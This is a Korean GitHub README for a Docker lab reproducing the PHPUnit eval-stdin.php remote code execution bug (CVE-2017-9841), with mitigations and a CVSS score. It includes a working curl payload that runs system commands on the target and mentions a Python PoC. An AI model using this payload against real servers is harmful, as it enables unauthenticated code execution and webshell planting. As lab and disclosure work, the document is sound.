


# PHPUnit eval-stdin.php 원격 코드 실행 (CVE-2017-9841)

> 화이트햇 스쿨 4기 - [조랑언 (@malrang-me)](https://github.com/malrang-me)

## 취약점 요약

PHPUnit은 PHP에서 가장 많이 쓰이는 테스트 프레임워크다. 4.8.28 이전, 그리고 5.6.3 이전 버전에는
`src/Util/PHP/eval-stdin.php` 라는 파일이 들어 있는데, 내용이 딱 한 줄이다.

```php
<?php eval('?>' . file_get_contents('php://input'));
```

요청 본문(`php://input`)을 그대로 `eval()` 에 넘긴다. 원래는 PHPUnit 내부에서 자식 프로세스로 코드를
넘길 때 쓰는 파일이지만, 이 파일이 웹 루트(`vendor/` 가 문서 루트 아래에 그대로 배포되는 경우)에서
접근 가능하면 **인증 없이** 요청 본문에 PHP 코드를 실어 보내는 것만으로 서버에서 임의 코드가 실행된다.

실제로 라라벨, 드루팔 등 `vendor/` 를 공개 디렉터리에 두는 프로젝트가 많아 광범위하게 악용됐고,
지금도 웹셸 유포에 자주 쓰인다.

References:

- <https://nvd.nist.gov/vuln/detail/CVE-2017-9841>
- <https://github.com/sebastianbergmann/phpunit/security/advisories/GHSA-fv3f-y3cq-qh9c>
- <https://github.com/sebastianbergmann/phpunit/blob/5.6.2/src/Util/PHP/eval-stdin.php>

## 환경 구성

외부 프리빌트 이미지를 쓰지 않고 공식 `php:7.4-apache` 위에 취약 버전(PHPUnit 5.6.2)의 실제
`eval-stdin.php` 를 배치하도록 `Dockerfile` 을 직접 작성했다. 아래 한 번이면 환경이 끝난다.

```
docker compose up -d --build
```

기동되면 취약 파일이 이 경로로 노출된다.

```
http://localhost:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php
```



## 취약 조건

- PHPUnit 버전이 **4.8.28 미만 또는 5.6.3 미만** 일 것
- `vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php` 가 **웹에서 직접 접근 가능**할 것
  (composer 의존성인 `vendor/` 디렉터리가 공개 문서 루트 아래에 배포된 경우)
- 별도 인증·권한 불필요 (Pre-Auth)

## 재현 절차

취약 파일에 PHP 코드를 요청 본문으로 POST 하면 그대로 실행된다. `id` 를 실행해 보자.

```
curl -s http://localhost:8080/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php \
     --data-binary "<?php system('id'); ?>"
```

파이썬 PoC 도 같이 넣어 뒀다.

```
python3 poc.py http://localhost:8080 "id"
python3 poc.py http://localhost:8080 "uname -a"
```

## 실행 결과

`id`, `uname -a` 가 서버(www-data 권한)에서 실행되고, 파일 생성까지 되는 걸로 원격 코드 실행을 확인했다.



```
$ curl ... --data-binary "<?php system('id'); ?>"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## 대응 방안

- **PHPUnit 업그레이드**: 4.8.28 이상 / 5.6.3 이상으로 올린다. (근본 해결)
- **운영 환경에 개발 의존성 배포 금지**: `composer install --no-dev` 로 PHPUnit 같은 테스트 의존성을
  아예 빼거나, 배포 시 `vendor/` 를 문서 루트 밖에 둔다.
- **웹 서버에서 차단**: `vendor/` 경로 직접 접근을 막는다. (Apache/Nginx에서 `Deny`/`return 403`)
- 굳이 파일이 남아야 한다면 `eval-stdin.php` 같은 불필요한 스크립트는 삭제한다.

## 평가 지표

- **Risk Score: 9.8** (CVSS 3.1 / AV:N AC:L PR:N UI:N S:U C:H I:H A:H)
  네트워크에서 인증 없이 단일 요청으로 서버 임의 코드 실행이 가능해 기밀성·무결성·가용성 모두 완전 침해.
- **Reproducibility: 95%**
  `docker compose up -d --build` 후 curl 한 줄이면 재현된다. 별도 앱 설정이 없어 환경 편차가 거의 없다.
